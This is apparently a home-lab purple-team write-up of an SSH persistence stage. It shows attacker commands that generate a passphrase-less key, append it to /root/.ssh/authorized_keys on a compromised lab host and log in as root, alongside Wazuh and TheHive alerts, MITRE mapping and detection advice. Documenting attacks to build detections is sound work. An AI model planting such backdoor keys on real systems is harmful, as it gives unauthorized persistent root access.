






# Stage 08 — SSH Persistence

> **Status:** Complete — evidence attached
> **Case:** [Case 02](../../04-Investigation/Cases/case-02-lateral-movement.md)
> **Investigation:** [Stage 08](../../04-Investigation/Stages/stage-08-ssh-persistence.md)
> **Evidence:** [attack](../Attack-Screenshots/) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/)

## Objective

Establish persistent, encrypted remote root access to the compromised Linux host (`dvwa` at `192.168.56.30`) by injecting an attacker-controlled Ed25519 SSH public key into `/root/.ssh/authorized_keys`. This guarantees resilient, long-term administrative access that operates independently of web services, survives host reboots, and removes dependence on fragile reverse shells.

> [!NOTE]
> **Case Transition:** Stage 08 marks the official kickoff of **Case 02 (Lateral Movement and Credential Access)**. The attacker transitions from initial perimeter compromise to internal network persistence and reconnaissance.

## Commands

### 1. Keypair Generation (Kali Linux — 192.168.232.135)

Generate a high-security Ed25519 SSH keypair with no passphrase to facilitate seamless, automated connections:

```bash
# Generate Ed25519 SSH keypair without passphrase
ssh-keygen -t ed25519 -f ~/.ssh/id_ed25519 -N ""

# Display the generated public key
cat ~/.ssh/id_ed25519.pub
```

Observed public key (redacted):
```text
ssh-ed25519 AAAAC3***kali@kali
```

### 2. Inject Public Key into Target Root Profile (DVWA Root Shell)

Append the attacker's public key string to the root user's `authorized_keys` file and set strict file permissions required by OpenSSH:

```bash
# Append attacker public key to root authorized_keys
echo "ssh-ed25519 AAAAC3***kali@kali" >> /root/.ssh/authorized_keys

# Enforce strict directory and file permissions
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
```

### 3. Establish Direct Root SSH Connection (Kali Linux)

Authenticate directly to the target Linux host over SSH using the private key:

```bash
# Connect directly to DVWA as root using the private key
ssh -i ~/.ssh/id_ed25519 root@192.168.56.30

# Verify persistent session identity
whoami
hostname
```

## What happened

1. **Strategic Pivot to Case 02:** Following successful root privilege escalation in Stage 07, the attacker shifted objectives toward internal network pivoting and domain lateral movement. To establish an unmonitored (by web application logs) and robust access channel, the attacker deployed an SSH public key backdoor.
2. **Keypair Generation:** On Kali Linux (`192.168.232.135`), the attacker executed `ssh-keygen -t ed25519 -f ~/.ssh/id_ed25519 -N ""` to produce an elliptic-curve keypair. The public key was extracted using `cat ~/.ssh/id_ed25519.pub`.
3. **Authorized Keys Modification:** Using the existing interactive root shell from Stage 07, the attacker appended the public key string into `/root/.ssh/authorized_keys`. The attacker enforced proper POSIX permissions (`chmod 700 /root/.ssh` and `chmod 600 /root/.ssh/authorized_keys`) to satisfy `sshd`'s `StrictModes` security checks, which would otherwise reject authentication if group/world permissions are overly permissive.
4. **Direct Backdoor Verification:** The attacker opened a new terminal on Kali and initiated a direct SSH connection: `ssh -i ~/.ssh/id_ed25519 root@192.168.56.30`. The OpenSSH daemon accepted the key without prompting for a password, granting direct, interactive root shell access (`root@dvwa:~#`).
5. **Operational Readiness:** With stable SSH access established, the adversary no longer requires the reverse shell or web shell to remain active, providing an encrypted management tunnel to stage attack tools and pivot into the internal Active Directory network.

## Evidence

### Attack Screenshots


*Figure 1: Generation of the Ed25519 keypair and display of the public key on Kali Linux.*


*Figure 2: DVWA root shell appending the public key to `/root/.ssh/authorized_keys` and applying restrictive permissions.*


*Figure 3: Successful SSH authentication from Kali directly to `root@192.168.56.30` using the injected key.*

### Alert Screenshots


*Figure 4: TheHive Alert 7 overview capturing unauthorized SSH persistence and root authentication.*


*Figure 5: Wazuh File Integrity Monitoring (FIM / syscheck) detecting modification to `/root/.ssh/authorized_keys`.*


*Figure 6: Wazuh authentication rule triggering on root login via public key from an external IP address.*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive Alert | Severity | Status |
|---|---|---|---|---|---|
| Wazuh (FIM / Syscheck) | File added/modified in /root/.ssh/ (authorized_keys) | Wazuh Syscheck | Alert 7 (`7.png`, `7.1.png`) | High | Detected |
| Wazuh (Auth) | SSH successful authentication for root user from external IP | Wazuh SSH Ruleset | Alert 7 (`7.2.png`) | High | Detected |

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Persistence | Account Manipulation | T1098 | SSH Authorized Keys (T1098.004) |
| Lateral Movement / Initial Access | Remote Services | T1021 | SSH (T1021.004) |

## Detection opportunities

- **File Integrity Monitoring (FIM):** Configure real-time file monitoring (Wazuh `syscheck` or auditd) on all user SSH directories, specifically watching `/root/.ssh/authorized_keys`, `/home/*/.ssh/authorized_keys`, and `/etc/ssh/sshd_config` for write or attribute change events.
- **SSH Daemon Hardening:** Disallow direct root authentication over SSH by configuring `PermitRootLogin no` in `/etc/ssh/sshd_config`. Administrators should authenticate with non-root accounts and escalate via audited `sudo`.
- **Anomalous Authentication Alerts:** Alert on SSH logins using newly observed public key fingerprints or logins originating from non-administrative IP addresses or external subnets.
- **Command-Line Telemetry:** Monitor command lines via auditd / Sysmon for Linux matching patterns that modify SSH authorized keys (e.g., `*echo*>>*authorized_keys*`, `*ssh-copy-id*`).

## Notes

- **Case Grouping:** As part of Case 02, this stage secures the pivot point needed to execute network reconnaissance and Active Directory attacks without risking session termination from web server restarts or crashes.
- **Key Redaction:** Cryptographic public key contents are redacted per project documentation guidelines (`ssh-ed25519 AAAAC3***kali@kali`).
